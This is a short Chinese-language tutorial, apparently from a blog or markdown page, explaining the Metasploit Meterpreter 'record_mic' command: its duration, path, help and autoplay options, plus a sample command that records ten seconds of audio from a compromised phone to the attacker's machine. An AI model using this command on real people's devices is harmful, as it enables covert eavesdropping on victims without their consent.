

一、环境准备
MSF-Metasploit Framework
一台安装手机或者模拟器
二、实践

record_mic  包含4个可选参数 分别为

-d  是设置录音时长的

-f 设置文件路径的

-h  查看帮助的

-p  控制自动播放的

	

一条简单的录音语句

record_mic -d  10 -p true

录制的音频会自动保存到攻击机中，-p为true表示在攻击机捕获的音频自动播放。

	